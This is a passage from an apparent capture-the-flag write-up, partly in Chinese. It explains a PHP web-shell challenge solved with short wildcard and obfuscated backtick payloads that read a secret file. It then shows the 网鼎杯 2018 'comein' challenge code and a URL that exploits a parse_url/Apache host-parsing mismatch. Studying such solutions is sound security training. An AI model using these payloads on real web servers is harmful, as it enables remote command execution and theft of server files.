 This tricky payload takes an advantage of `default` in `virtual hosts` set to `/var/www/html` so any non-existent domain will point there. Also, it uses the alternative way of making the request using `GET FULL_URL` syntax.

```
<?=`/???/??? ../??????.??? > ===`
```

Even more tricky here using only 33 characters... It calls for shell via ``...`` syntax and then uses `shell wildcards` so `/???/???` will match `/bin/cat` and `../??????.???` matches `../secret.php`. Finally, it writes the result to `===` file. Amazing.

————解法3

```php
<?=`{${~"����"}[_]}`;
// echo -ne '<?=`{${~"\xa0\xb8\xba\xab"}[_]}`;'
```

————解法4

```php
<?=`/???/??? ../*`;
```

### [网鼎杯 2018]comein

上面OmegaSector的简略版

```php
<?php
ini_set("display_errors",0);
$uri = $_SERVER['REQUEST_URI']; // 请求的uri
var_dump($uri);

if(stripos($uri,".")){   // uri中要么不出现“.” 要么以“.”开头
    die("Unkonw URI.");
}

if(!parse_url($uri,PHP_URL_HOST)){  //尝试解析uri 取出host
    $uri = "http://".$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI'];
    var_dump($uri);
}

$host = parse_url($uri,PHP_URL_HOST);  //解析拼接后的uri 取出host
var_dump($host);
if($host === "c7f.zhuque.com"){
   echo "flag  sasa";
}
```

- http://127.0.0.1.@c7f.zhuque.com/..//index.php

最前面有个点；parse_url和apache的解析不同

PHP解析时把127.0.0.1看作是user，后面的c7f.zhuque.com看作是host

而apache认为127.0.0.1是host，后面的.@c7f.zhuque.com/是一个路径 不存在，后面..//index.php退回根目录，再访问index.php
